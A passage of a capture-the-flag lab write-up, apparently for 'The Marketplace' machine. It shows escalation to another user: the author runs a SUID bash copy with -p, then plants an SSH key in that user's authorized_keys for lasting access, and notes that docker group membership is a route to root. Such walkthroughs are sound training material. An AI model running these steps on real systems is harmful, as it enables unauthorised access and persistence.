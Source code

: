 ```bash
jake@the-marketplace:~$ ls -la /tmp
total 1124
drwxrwxrwt  9 root    root       4096 Oct 18 17:09 .
drwxr-xr-x 23 root    root       4096 Aug 23 08:18 ..
-rwsr-sr-x  1 michael michael 1113504 Oct 18 17:09 bash
drwxrwxrwt  2 root    root       4096 Oct 18 16:03 .font-unix
drwxrwxrwt  2 root    root       4096 Oct 18 16:03 .ICE-unix
drwx------  3 root    root       4096 Oct 18 16:03 systemd-private-af6d0431990545168451ab6c149be899-systemd-resolved.service-kchEIo
drwx------  3 root    root       4096 Oct 18 16:03 systemd-private-af6d0431990545168451ab6c149be899-systemd-timesyncd.service-0QCqil
drwxrwxrwt  2 root    root       4096 Oct 18 16:03 .Test-unix
drwxrwxrwt  2 root    root       4096 Oct 18 16:03 .X11-unix
drwxrwxrwt  2 root    root       4096 Oct 18 16:03 .XIM-unix
```

bash has suid bit

Lets access bash as user michael

```bash
$ /tmp/bash -p
bash-4.4$ id
uid=1000(jake) gid=1000(jake) euid=1002(michael) egid=1002(michael) groups=1002(michael),1000(jake)

```

Lets add ssh key to the user michael

```bash
$ mkdir /home/michael/.ssh
$ echo "my-pub-key' > /home/michael/.ssh/authorized_keys
```

Now let's ssh as user michael

```bash
$ ssh michael@10.10.87.36
```

User michael is in docker group. Which means we can escalate to root using docker

```bash
uid=1002(michael) gid=1002(michael) groups=1002(michael),999(docker)
```

# Vertical privilege Escalation

## Docker Privilege Escalation

Lets view Available images

```bash
michael@the-marketplace:/tmp$ docker image ls
REPOSITORY                   TAG                 IMAGE ID            CREATED             SIZE
themarketplace_marketplace   latest              6e3d8ac63c27        6 weeks ago         2.16GB
nginx                        latest              4bb46517cac3        2 months ago        133MB
node                         lts-buster          9c4cc2688584        2 months ago        886MB
mysql                        latest              0d64f46acfd1        2 months ago        544MB
alpine                       latest              a24bb4013296        4 months ago        5.57MB
```
